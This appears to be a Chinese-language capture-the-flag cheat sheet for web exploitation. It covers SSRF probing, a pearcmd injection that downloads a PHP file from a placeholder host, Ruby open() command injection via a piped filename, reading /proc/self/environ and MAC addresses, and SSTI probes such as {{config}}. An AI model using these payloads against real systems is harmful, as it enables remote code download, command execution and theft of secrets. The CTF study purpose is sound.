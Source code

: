 23. ssrf 看有没 url, returl, returl=https://www.baidu.com , 看有没返回值。
24. ?c=pearcmd&+download+http://xx.yy/1.php https://blog.csdn.net/qq_46091464/article/details/108954166

## ruby

res = open(file, 'r').read() open()函数来打开可控制 file 参数传入的文件名。而 ruby 中的 open()函数是借用系统命令来打开文件，且没用过滤 shell 字符，导致在用户控制文件名的情况下，将可以注入任意命令。

`file=|whoami > test.png`

## nodejs/javascript

`setTimeout` 当 delay 大于 2147483647 或小于 1 时，则 delay 将会被设置为 1。非整数的 delay 会被截断为整数。

javascript 反混淆 https://lelinhtinh.github.io/de4js/

## linux 知识

proc 见 Web_php_NSSCTF.md - # NSSCTF prize2 - nodejs 文件描述符

/proc/pid/fd 里有所有打开的 file descriptor 信息

/proc/self/cmdline
/proc/self/environ
[/proc/self/mem](https://askdev.io/cn/questions/52854/ru-he-zai-linux-xia-cong-proc-pid-mem-du-qu-shu-ju) https://erroratao.github.io/2022/07/10/File_Session/

wsgi.ini

读取 mac 地址 /sys/class/net/eth0/address

见 writeup/Web_php_NSSCTF.md#NSSCTF prize2 - nodejs 文件描述符

### 网卡地址

uuid.getnode() 为网卡地址去掉:

```
ifconfig -a
1. ifconfig-a其中 HWaddr字段就是mac地址
2. cat/sys/class/net/eth0/address  查看etho的mac地址
3.cat /proc/net/arp 查看连接到本机的远端ip的mac地址
4.程序中使用 SIOCGIFHWADDR的oct命令获取mac地址N@ Tasso}

```

## python - ssti

ssti 注入 Twig: {{7*'7'}} 输出 49 [BJDCTF2020]Cookie is so stable https://www.cnblogs.com/wkzb/p/12422190.html
Jinja2 {{7*'7'}} 输出'7777777'
python/flask/django

                只给hello guest, 试试 ?name=123, ?name={{config}}, 可能是jwt要伪造admin
                h.encode('idna').decode('utf-8') 绕过 见 -- [SUCTF 2019]Pythonginx
